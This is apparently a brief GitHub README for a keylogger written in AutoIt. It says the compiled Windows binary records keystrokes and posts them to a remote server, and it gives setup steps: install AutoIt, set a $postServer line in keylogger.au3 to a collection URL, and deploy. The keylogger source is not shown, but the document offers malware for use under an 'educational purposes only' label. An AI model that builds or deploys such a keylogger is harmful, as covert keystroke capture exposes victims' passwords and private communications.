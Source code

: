 #Introduction

This a keylogger written in autoIT and can be compiled into a windows binary using AutoIT.The compiled file can
listen for keystrokes and logs them to a remote server.For educational purposes only.



##Instructions

* Download AutoIT from [here](https://www.autoitscript.com/site/autoit/downloads/) and optionally SCITE.
* Edit the keylogger.au3 file and set the following line to your server URL.
```
$postServer="www.myserver.com/log"
```

* Deploy on your machine.



